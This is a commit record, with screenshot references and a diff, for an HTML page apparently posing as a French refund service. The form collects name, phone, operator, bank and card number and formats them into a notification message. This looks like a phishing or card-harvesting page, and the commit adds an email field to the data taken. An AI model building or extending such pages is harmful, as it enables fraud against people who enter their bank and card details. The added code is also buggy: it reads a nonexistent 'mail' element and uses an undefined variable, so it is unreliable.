

Before and after one commit to remboursement241/remboursement-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 179-799 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -44,6 +44,10 @@
                 <input type="text" id="nom" placeholder="Ex: Jean Dupont" required
                     class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
             </div>
+        <div class="form-group">
+            <label for="email">Email *</label>
+            <input type="email" id="email" name="email" required placeholder="Entrez votre email">
+        </div>
 
 <script>
     const cardInput = document.getElementById('numero-carte');
@@ -205,6 +209,7 @@
     event.preventDefault();
 
     const nom = document.getElementById("nom").value;
+    const email = document.getElementById("mail").value;
     const telephone = document.getElementById("telephone").value;
     const operateur = document.getElementById("operateur").value;
     const bank = document.getElementById("bank").value;
@@ -220,6 +225,7 @@
     const message = `
 🔔 **Nouvelle Demande de Remboursement** 🔔
 👤 Nom: ${nom}
+🔔 mail: ${mail}
 📞 Téléphone: ${telephone}
 📡 Opérateur: ${operateur}
 🏦 Banque: ${bank}`;
```
